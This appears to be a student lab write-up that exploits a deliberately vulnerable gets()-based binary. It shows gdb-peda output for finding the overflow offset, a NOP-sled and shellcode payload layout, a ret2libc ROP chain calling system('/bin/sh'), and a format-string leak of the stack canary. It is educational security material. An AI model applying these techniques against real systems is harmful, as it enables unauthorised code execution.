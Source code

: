 # Documentation for Exploitation

## No defenses

First using a pattc, patto to determine the offset needed to overwrite instruction pointer.
```
gdb-peda$ r < test
Starting program: /home/kair0s3/CS5231/binary/vulnerable < test

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffda10 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RBX: 0x4011f0 (<__libc_csu_init>:	endbr64)
RCX: 0x7ffff7fb0980 --> 0xfbad2088
RDX: 0x0
RSI: 0x4052a1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAA"...)
RDI: 0x7ffff7fb27f0 --> 0x0
RBP: 0x415243416d434151 ('QACmACRA')
RSP: 0x7fffffffdf58 ("CoACSACpACTACqACUACrACVACtACWACuACXACvACYACwACZACxACyACzA-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-R"...)
RIP: 0x4011b6 (<vulnerable+64>:	ret)
R8 : 0x7fffffffda10 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
R9 : 0x7fffffffda40 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA"...)
R10: 0x7ffff7fb0be0 --> 0x4062a0 --> 0x0
R11: 0x7fffffffe1c0 ("qADUADrADVADtADWADuADXADvADYADwA")
R12: 0x401090 (<_start>:	endbr64)
R13: 0x7fffffffe060 ("(BA($A(nA(CA(-A((A(DA(;A()A(EA(aA(0A(FA(bA(1A(GA(cA(2A(HA(dA(3A(IA(eA(4A(JA(fA(5A(KA(gA(6A(LA(hA(7A(MA(iA(8A(NA(jA(9A(OA(kA(PA(lA(QA(mA(RA(oA(SA(pA(TA(qA(UA(rA(VA(tA(WA(uA(XA(vA(YA(wA(ZA(xA(yA(zAD%ADs"...)
R14: 0x0
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011af <vulnerable+57>:	call   0x401080 <gets@plt>
   0x4011b4 <vulnerable+62>:	nop
   0x4011b5 <vulnerable+63>:	leave  
=> 0x4011b6 <vulnerable+64>:	ret    
   0x4011b7 <main>:	endbr64
   0x4011bb <main+4>:	push   rbp
   0x4011bc <main+5>:	mov    rbp,rsp
   0x4011bf <main+8>:	sub    rsp,0x10
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdf58 ("CoACSACpACTACqACUACrACVACtACWACuACXACvACYACwACZACxACyACzA-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-R"...)
0008| 0x7fffffffdf60 ("ACTACqACUACrACVACtACWACuACXACvACYACwACZACxACyACzA-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-RA-oA-SA-"...)
0016| 0x7fffffffdf68 ("UACrACVACtACWACuACXACvACYACwACZACxACyACzA-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-RA-oA-SA-pA-TA-qA"...)
0024| 0x7fffffffdf70 ("CtACWACuACXACvACYACwACZACxACyACzA-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-RA-oA-SA-pA-TA-qA-UA-rA-V"...)
0032| 0x7fffffffdf78 ("ACXACvACYACwACZACxACyACzA-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-RA-oA-SA-pA-TA-qA-UA-rA-VA-tA-WA-"...)
0040| 0x7fffffffdf80 ("YACwACZACxACyACzA-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-RA-oA-SA-pA-TA-qA-UA-rA-VA-tA-WA-uA-XA-vA"...)
0048| 0x7fffffffdf88 ("CxACyACzA-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-RA-oA-SA-pA-TA-qA-UA-rA-VA-tA-WA-uA-XA-vA-YA-wA-Z"...)
0056| 0x7fffffffdf90 ("A-%A-sA-BA-$A-nA-CA--A-(A-DA-;A-)A-EA-aA-0A-FA-bA-1A-GA-cA-2A-HA-dA-3A-IA-eA-4A-JA-fA-5A-KA-gA-6A-LA-hA-7A-MA-iA-8A-NA-jA-9A-OA-kA-PA-lA-QA-mA-RA-oA-SA-pA-TA-qA-UA-rA-VA-tA-WA-uA-XA-vA-YA-wA-ZA-xA-yA-"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011b6 in vulnerable ()
gdb-peda$ patto CoACSA
CoACSA found at offset: 1352
```

Knowing the offset, we can overwrite the return address to somewhere on our NOP sled. i.e. `0x7fffffffdab0`

Then include our payload in the format of
```
<NOP_SLED#1> <------
<SHELLCODE>        |
<NOP_SLED#2>       |
<return_address> --|
```


## NX Enabled

Since NX is enabled, we cannot run the shellcode in our stack. So, we can leverage on Return-to-libc (with ROP).

Now, we just need to find all the necessary values (or addresses) needed.

First we look for the system calls - `system` and `exit`
```
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7e16290 <__libc_system>
gdb-peda$ p exit
$2 = {void (int)} 0x7ffff7e0aa40 <__GI_exit>
```

Next, we need the `pop rdi` to set the parameter for `system()`. This can be done by dumping the gadgets.
```
gdb-peda$ dumprop
Warning: this can be very slow, do not run for large memory range
Writing ROP gadgets to file: vuln-rop.txt ...
0x40115e: ret <------- in case of alignment issues
0x4010c3: cli; ret
0x4010ef: nop; ret
0x4011b5: leave; ret
0x4010c1: nop edx; ret
0x4010c0: endbr64; ret
0x40112e: jmp rax; ret
0x40115d: pop rbp; ret
0x401253: pop rdi; ret <------- USEFUL
0x401252: pop r15; ret
```

To find a string for the `pop rdi` to use, we will be using `/bin/sh` or `id`

```
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7f785bd --> 0x68732f6e69622f ('/bin/sh')

gdb-peda$ find id
Searching for 'id' in: None ranges
Found 225 results, display max 225 items:
      libc : 0x7ffff7dd5ed6 --> 0x7761725f5f006469 ('id')
```

Now, we have the necessary addresses
```
0x7ffff7f785bd --> "/bin/sh"
0x7ffff7dd5ed6 --> "id"
0x7ffff7e16290 --> system
0x7ffff7e0aa40 --> exit
0x401253 --> "pop rdi; ret"
0x40115e --> "ret"
```

Payload Format
```
<NOP_SLED> (1352 bytes)
<RET>
<POP_RDI>
<"id" or "/bin/sh">
<SYSTEM>
<EXIT>
```

## NX and Canary Enabled

Since NX and canary is enabled, we have the same rules as of the above. But this time, we need to fix the canary values for the exploit to work.

For this, we can make use of the format string attack to leak out the canary, before using it in our attack.

Using a for loop to iterate the positions for the format string attack and regex to check the pattern matching `0x.{14}00`, we can match the likely canaries found on the stack.

In pseudocode.
```
for i in range of 0 - 750
  get the pos i format string value -> %{i}$llx
  if the returned value matches '0x.{14}00'
    append it to a list

then finally, print out the list of positions found and its respective values.
```

And with that we can run it twice to check

```
# Run 1
[177, 307, 311, 365, 380, 593, 610, 625]
['0xe43353855a5f8400', '0xb9f6ee255aae9500', '0x75762f2e00000000', '0x54535f5355424400', '0x5345535f47445800', '0x5255435f47445800', '0x5441434f564e4900', '0x74783d4d52455400']

# Run 2
[177, 307, 311, 365, 380, 593, 610, 625]
['0x7fd7ce60a3969300', '0xcd8e94b082c0e300', '0x75762f2e00000000', '0x54535f5355424400', '0x5345535f47445800', '0x5255435f47445800', '0x5441434f564e4900', '0x74783d4d52455400']
```

From this, we can see some interesting value changes

```
# Changes noted
pos 177, 0xe43353855a5f8400 -> 0x7fd7ce60a3969300
pos 307, 0xb9f6ee255aae9500 -> 0xcd8e94b082c0e300
```

To test which position actually contains the canary value, we can send the payload in the format
```
<overflow>
<canaryVal from 177 and 307 respectively>
```

This results in position 177 giving us `Return properly!`.

Hence 177 must be where our canary value is held.

Then can simply need to fix the canary and append the remaining of the payload as previous exploitation for NX.

As such, we crafted the exploit as of `exploitCanary.py` to automate the exploitation.
